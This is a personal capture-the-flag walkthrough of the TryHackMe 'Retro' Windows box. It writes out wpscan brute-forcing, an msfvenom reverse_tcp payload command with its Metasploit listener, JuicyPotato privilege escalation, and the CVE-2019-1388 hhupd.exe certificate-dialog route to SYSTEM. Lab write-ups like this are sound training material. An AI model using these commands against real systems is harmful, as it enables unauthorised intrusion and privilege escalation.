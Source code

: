 ```yaml
---
layout: single
classes: #wide
title: "Try Hack Me - Retro"
toc: true
toc_sticky: false
author_profile: true
collection: posts
categories: [CTF, Try Hack Me]
tags: [certificates, nc, linux, nmap]
---
```


![title](/assets/images/retro/title.png)  
About this box: A windows IIS server with some pretty straightforward logic. Or so I thought..

# Intro
This box on the outside looks pretty simple. An IIS server with a `/retro` endpoint that is findable with a nmap scan. However, what was very interesting about this machine is I couldn't get a persistant shell for the life of me. Meterpreter worked, however shells would die upon spawning.

Anyhow let us begin :smiling_imp:

# Enumeration
Upon navigating to the ip of the machine, we are presented with a MS-IIS server. Recently MS pushed an update allowing for powershell to be ran on an endpoint. However, for this box that doesn't present to be the case.

Nmap, tells us we have 2 ports an RDP on port 3389, and the IIS server that we initially found on 80.
![nmap](/assets/images/retro/nmap.png)

Running a gobuster on the IIS server, finds us a `/retro` endpoint. This endpoint allows us to ge tthe login credentials for the rdp and wordpress server.

![retro](/assets/images/retro/retro.png)

The main user of this wordpress site writes a lot about how cool he thinks the retro exploits were. Reading through his posts, we see this post:
![wade](/assets/images/retro/wade.png)

Now, if you haven't seen the movie... The main characters alias in the world of the OASIS is parzival. Whipping up a custom wordlist (because he said he mispelled it a lot in his post) I brute forced with wpscan. 

This left us with the credentials `Wade:parzival`. The brute force wasn't all that necessary due to wade leaving a comment on his own post saying how to spell said user name. However I thought it would be interesting to try to create a custom wordlist with cewl and ai. 

# Rev shell
When attempting these challenges I need to think about what I have access to a little more. In the past, I have utilized wordpresses theme php to make a reverse shell. Spacing that there was RDP ACCESS!!!!

So, I did just that. With tampermonkey's php reverse shell, I got into the box... and then was kicked out.

This machine didn't like shells. They would spawn then terminate immediately. Or, they would hang. I ultimately used msfvenom to make a php payload and then used msfconsole to listen for the request. Meterpreter was the only kind of shell I could get. And after getting it, I couldn't spawn shells :sob:

# /get priv

Now with the shell out of the way, it was time for priv-esc. Looking up the system information with sysinfo in meterpreter I now knew that I was on a 2016 windows server. And the cool thing about these servers if we have the permission `seimpersonateprivilege` we can run the mallicious potato :potato:

Running `getpriv` within our meterpreter shell we can see that we have the `seimpersonateprivilege` set on our user of the IIS server.

![priv](/assets/images/retro/priv.png)

Time to upload the potato!!! (you can get it [here](https://github.com/ohpe/juicy-potato))
* `upload potato.exe` 

Now its time to make the payload:
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.53.1 LPORT=8888 -f exe -o 8888payload.exe`  
NOTE: make sure to replate the ip of LHOST with your own 

Make the msfconsole session:
1. `msfconsole`
2. `use exploit/multi/handler`
3. `set lhost tun0`
4. `set lport 8888`

running the potato with `execute -H -f cmd.exe -a "/c C:\Temp\JuicyPotato.exe -t * -p C:\Temp\8888payload.exe -l 443"`  
NOTE: we have to use execute since we cant spawn a shell & we are in meterpreter

# root perms

I had to wait a little while for the connection to hit, but when it did NT/ADMIN BBY.

Now with root perms, go get the user.txt and root.txt


# 2nd path
apparently this box also had a certification bug. This allowed us to utilize the `hhupd.exe` in the recycle bin to get admin as well. 

To start off we will RDP into the box with wade's credentials: `wade:parzival`

We see that there is a file `hhupd.exe` in the recycle bin.

![hhupd](/assets/images/retro/hhupd.png)

Looking up this file we find a lot of blog writeups about the vulerability `CVE-2019-1388`

Opening up chrome, we can also see a link to the page `https://nvd.nist.gov/vuln/detail/CVE-2019-1388`.

So, its safe to conclude that this file is probably what we were looking for. 

The description of this bug is:

![cve](/assets/images/retro/cve.png)

A windows certificate bug... I wonder what hhupd does then.

Running it we are presented with a login for the admin, and then there is a blue underlined string of words we can click on:

![login](/assets/images/retro/login.png)

Clicking on it twice we can see the credentials of the certificate that was used.

Opening the certificate link in the web browser (I couldn't get this part to work). We see that the page didn't load. But wait, according to [here](https://www.hackingarticles.in/retro-tryhackme-walkthrough/) the site doesn't need to be seen, just loaded.

Save the page and type in `C:\WINDOWS\system32\cmd.exe` into the explorer search bar.

And BOOM NT/Authority as the user.

# Learning
- I didn't know about the mallicious potato
- meterpreter execute command

Even though I didn't learn much, IMO it was a very fun box. Big thank you to the creator!

If you read this far, thank you for reading! I hope I could help you on your own ctf journey.

-ryu out